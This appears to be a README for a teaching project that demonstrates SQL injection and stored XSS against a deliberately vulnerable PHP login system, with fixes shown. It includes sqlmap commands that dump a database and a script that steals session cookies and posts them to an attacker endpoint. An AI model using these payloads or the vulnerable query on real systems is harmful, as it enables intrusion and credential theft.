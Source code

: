 <h1 align="center">Secure Login System</h1>

We created a login system, for the backend we use PHP and MySQL for the database and on the frontend we used HTML/CSS. 
The purpose of this project is to show how code becomes vulnerable to SQL injection.
We will analyze and perform SQL Injection attacks and Cross-Site Scripting attacks to see how they work when we do not secure the appropriate code. 
We'll use some attack tools like SQLMap. 

The project has three parts:

1.Secure Login System with Non-Sanitizing Code
Attacks like SQL Injection work here, as well as attacks like Cross-Site Scripting (XSS).
    This code is intentionally vulnerable to demonstrate:

    How legacy PHP applications become vulnerable
    Why string concatenation in SQL is dangerous
    How sqlmap and other tools exploit these weaknesses
    The importance of modern PHP security practices

The [vulnerable_login_form.php](https://github.com/cipriancyberspace/securewebapplication/blob/6446f90b9c608a4dc2e249c212e0f0be46d18ce2/Secure_Login_System/vulnerable_login_form.php) contains the code responsible for simulating SQL injection attacks with sqlmap. We will analyze below how the attack mechanism works and the consequences when code lacks proper sanitization.

2.Secure Login System with Partial Sanitizing Code
Attacks like SQL Injection don't work here, but there are some vulnerabilities related to Cross-Site Scripting (XSS).

[secure_sqli_vulnerable_xss.php](https://github.com/cipriancyberspace/securewebapplication/blob/233d578e923a9ef875144f9e56649e0006b6384d/Secure_Login_System/secure_sqli_vulnerable_xss.php) file demonstrates code that has been sanitized to prevent SQL injection attacks while maintaining vulnerability to XSS attacks, together with supporting files including steal.php, dashboard.php, and payload files responsible for XSS attack vectors.


3.Secure Login System with Complete Sanitizing Code
In this part, we have protected the code against both threats. Also, I will show you how to implement CAPTCHA for brute force protection.

<h1 align="center">1.Secure Login System with Non-Sanitizing Code</h1>

![Sqlmap](https://raw.githubusercontent.com/cipriancyberspace/securewebapplication/99e7e8d24c04397303853220b9ae101d9e12e940/Secure_Login_System/images/sqlmap.png)



Sqlmap is an open source penetration testing tool that automates the process of detecting and exploiting SQL injection flaws and taking over of database servers. 
It comes with a powerful detection engine, many niche features for the ultimate penetration tester and a broad range of switches lasting from database fingerprinting, 
over data fetching from the database, to accessing the underlying file system and executing commands on the operating system via out-of-band connections.

![Sqlmap](https://github.com/cipriancyberspace/securewebapplication/blob/ee5612aa8bd9970e35df345d5f98699db35a3003/Secure_Login_System/images/sqlmap_1.png)

<strong> 1.SQLMap Command Breakdown: </strong>
<pre> <code>sqlmap -u "http://localhost/secureloginsystem/vulnerable_login_form.php" --data="username=test&password=test" --dbs --batch</code> </pre>

![Sqlmap](https://github.com/cipriancyberspace/securewebapplication/blob/1bf4ec6c5278162c33acfffa401df1ce9bfb6bfb/Secure_Login_System/images/sqlmap_3.png)

![Sqlmap](https://github.com/cipriancyberspace/securewebapplication/blob/eff2084c859e84b41a33be3071eaf471de9b0d7e/Secure_Login_System/images/sqlmap_2.png)

<strong> 2.Explore your database: </strong>
<pre> <code>sqlmap -u "http://localhost/secureloginsystem/vulnerable_login_form.php" \
       --data="username=test&password=test" \
       -D test_db --tables --batch</code> </pre>

![Sqlmap](https://github.com/cipriancyberspace/securewebapplication/blob/9086268e64a0716507f5dc933ce2bfb70513775b/Secure_Login_System/images/sqlmap_4.png)

<strong> 3.Dump user data: </strong>

<pre> <code>sqlmap -u "http://localhost/secureloginsystem/vulnerable_login_form.php" \
       --data="username=test&password=test" \
       -D test_db -T users --dump --batch</code> </pre>

![Sqlmap](https://github.com/cipriancyberspace/securewebapplication/blob/f0b283ed11636000979a965a8ce7c080b99c5ea2/Secure_Login_System/images/sqlmap_5.png)

<strong> 4.Get database schema: </strong>

<pre> <code>sqlmap -u "http://localhost/secureloginsystem/vulnerable_login_form.php" \
       --data="username=test&password=test" \
       -D test_db -T users --columns --batch</code> </pre>

![Sqlmap](https://github.com/cipriancyberspace/securewebapplication/blob/e4dc111aa3704427855dbe08de21b97209472a2a/Secure_Login_System/images/sqlmap_6.png)



⚠️ Why This Works 
Vulnerable PHP code:
<pre> <code>$sql = "SELECT * FROM users WHERE username = '$user' AND password = '$pass'";</code> </pre>
SQLMap exploits this by injecting payloads that break out of the SQL query, allowing it to execute additional SQL commands to enumerate databases.

Primary Vulnerability Location:
Line 78-82 - The main SQL injection vulnerability:


<pre> <code>/ VULNERABLE CODE - Direct string concatenation
$user = $_POST['username'];  // ❌ RAW user input
$pass = $_POST['password'];  // ❌ RAW user input

// ❌ DANGEROUS: Direct concatenation into SQL query
$sql = "SELECT * FROM users WHERE username = '$user' AND password = '$pass'";</code> </pre>

Secure Alternative with Prepared Statements:

<pre> <code>// Proper sanitization using prepared statements
$stmt = $conn->prepare("SELECT * FROM users WHERE username = ? AND password = ?");
$stmt->bind_param("ss", $user, $pass);  // "ss" = two strings
$stmt->execute();
$result = $stmt->get_result();</code> </pre>

Alternative with Input Escaping:

<pre> <code>// Basic escaping (less secure than prepared statements)
$user = $conn->real_escape_string($_POST['username']);
$pass = $conn->real_escape_string($_POST['password']);
$sql = "SELECT * FROM users WHERE username = '$user' AND password = '$pass'";</code> </pre>

<h1 align="center">2.Secure Login System with Partial Sanitizing Code</h1>

The attacker authenticates, accesses the "update profile" section, and injects the XSS payload into the "profile note" field before submitting the update. The code is stored RAW in the database without proper sanitization. Multiple payload types are available - this project demonstrates three variants: 1. Phishing payload 2. Password harvester 3. Silent credential extractor. These payloads extract sensitive data including cookies, storage objects, user information, browser details, form data, and page content based on payload configuration. A typical data collection payload example:

<pre> <code><script>
var stolenData = {
    cookies: document.cookie,
    sessionId: document.cookie.match(/PHPSESSID=([^;]+)/)[1],
    url: window.location.href,
    userAgent: navigator.userAgent,
    timestamp: new Date().toISOString()
};
// Data is prepared for transmission...
</script></code> </pre>

![Sqlmap](https://github.com/cipriancyberspace/securewebapplication/blob/30c26c388316b68f212474aea13c1971e70e08dc/Secure_Login_System/images/xss_1.png)

![Sqlmap](https://github.com/cipriancyberspace/securewebapplication/blob/30c26c388316b68f212474aea13c1971e70e08dc/Secure_Login_System/images/xss_2.png)

The payload sends the data to the attacker's server:

<pre> <code> fetch('./steal.php', {
    method: 'POST',
    headers: {'Content-Type': 'application/json'},
    body: JSON.stringify(stolenData),
    mode: 'no-cors'
}).then(function() {
    console.log('💰 Data stolen successfully!');
}); </code> </pre>

The payload transmits data to the attacker's server infrastructure. During this phase, steal.php processes the incoming JSON payload data, persists it to a .json file, and renders the collected information through dashboard.php

![Sqlmap](https://github.com/cipriancyberspace/securewebapplication/blob/30c26c388316b68f212474aea13c1971e70e08dc/Secure_Login_System/images/xss_3.png)

![Sqlmap](https://github.com/cipriancyberspace/securewebapplication/blob/30c26c388316b68f212474aea13c1971e70e08dc/Secure_Login_System/images/xss_4.png)

![Sqlmap](https://github.com/cipriancyberspace/securewebapplication/blob/30c26c388316b68f212474aea13c1971e70e08dc/Secure_Login_System/images/xss_5.png)




